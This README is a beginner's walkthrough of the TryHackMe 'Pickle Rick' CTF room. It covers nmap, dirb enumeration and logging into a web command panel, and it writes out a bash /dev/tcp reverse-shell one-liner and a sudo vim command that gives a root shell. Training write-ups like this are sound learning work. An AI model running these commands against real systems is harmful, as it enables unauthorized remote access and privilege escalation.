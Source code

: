 # TryHackMe-PickleRick-CTF
This is a simple, fun, and beginner CTF. This is the first CTF room that I have completed on TryHackMe. It involves finding three secret ingredients to help Rick turn back into a human after turning himself into a pickle.

Here, I will highlight a quick walkthrough/step-by-step instruction for how I completed the room. Here on the README, I won't include exact commands I used in order to find the ingredients, but I will include hints to help (if you want the exact lines I used, I will create a cheatsheet with more step-by-step). As I stated before, this was my first room that I completed, so I had the help of some peers to help guide me through the processes. I did go a little overkill in this room as I tried to escalate privileges which was completely unecessary. Now, I will go forward with a walkthorugh as well as screenshots with how things should look. Finally, like I stated before, this is just what I did personally to complete the room.Good luck! 

![picklerick](https://user-images.githubusercontent.com/117850176/201009495-589059c2-e925-43ba-9269-6907607139e3.png)






<img width="556" alt="Screen Shot 2022-11-09 at 10 41 16 PM" src="https://user-images.githubusercontent.com/117850176/201009776-cfc2b1ff-b671-412a-9027-1132ca9c1bb2.png">

The first step to completing this machine is turning on the machine itself, this can be done by selecting task 1 and then pressing the green start machine button. Give this a minute and your personal IP will show up under the "active machine" heading - Keep this IP handy as you will be using this extremely frequently throughout the CTF.


Firstly, I wanted to see what the site would look like. To do this, I just entered the given IP on a firefox (or any other web browswer of your choice) into the search bar. Then a Rick and Morty themed site appeared.

(Put SS of site)

The first step that I took was to use a nmap scan with the given IP on the tryhackme. To do this, I started a command window in kali. Once the window was opened I used the nmap command and found that ports 22 and 80 were both running. 

(Put ss of nmap being used and port 22 and 80 running)

After seeing this, another one of the first steps that I did was to inspect the sites source code to see if I was able to find any hints that were left within the source code. Within the source code, there is a commented section of code that gave a username, keep this username in mind as this is essential information. I won't be giving the username here, so explore the source code and it should make itself apparent to you. 

Upon finding this username, this gave me the insight to attempt to find a password, because usernames and passwords go hand in hand. I then used the dirb command (command?(define what this does), for directory for enumeration (what is this?) After using this command I found a list of different directories. The directories that I found will be included in a screenshot below. I won't list eh direct dirb command that I used here but it will be located in the cheat sheet. I browsed each directory found on the website by using /(directory name). After exploring these different directories and I found a password, again this password will be located in the cheatsheet. 

Within the directories given, I was also directed to a login page. If you explore the directories given, you should find this releatively easily. Using the credentials we found in the earlier steps, you should be able to enter the login page. After logging in, you will be presented with a command line. 

(Put ss of login page, command line)

After seeing that a command line was given, I decided to host a netcat listener on my local kali machine on port 1234. I used this port because I knew nothing would be communicating on it. The exact command that I used will be provided via the chaeatsheet.11 (Define what netcat does) Next, I used a bash reverse shell command that I found on gtfobins, since I found this on a third party site, I will provide the command here. 
- bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
After successfully running the reverse bash, I was given a shell through the Picklerick site, giving me access. 

Once I had the reverse shell running on my local kali machine, I just used a simple ls command to see what folders existed. I seen that there was a text file that may contain an ingredient. I then used another simple cat command to see the contents of this file. This gave me the first ingredient needed to answer. 

When I did the ls command there were other folders that I could explore. I decided to explore the home folder. To do this, I had to first change the directory. This can be done by using cd home. Once in the home folder, I once again used the ls command to see the contents of the home folder/directory. I seen a folder named rick and ubuntu. The rick folder seemed more appealing to me so Is into this folder. In the rick folder, there was a file straight up title second ingredient. Using the cat command once again, the second ingredient was found. 

Next, I wanted to gain root acess to the shell. I decided to use sudo -l and found that no password was needed and I could run any command. I then used another shell command found on gtfobins. This is it:
- sudo -u root vim -c ':!/bin/sh'
Using this command gave me root access. Once again, I did a ls command and seen a file called 3rd. I used the cat command one last time and this gave me the third and final ingredient. 

All in all, the steps seem very repetetive in this CTF. I had a great time completing this for my first one. I am looking forward to completing more and seeing what other tools I am able to use. 

The answers for this for will be located on the cheatsheet, but I HIGHLY reccomended just using trial and error. As you will learn a lot more and have a more fun time. 

Thank you for reading my write up! I want to document most of, if not, all of my CTFs so that I may keep a journal and others can also view it. Personally for me it was hard to get started at first. But having people help me along the way was so beneficial, so if I can be that for someone else that would be awesome. Anyway, goodluck on any CTFs you look to tackle and happy hacking!
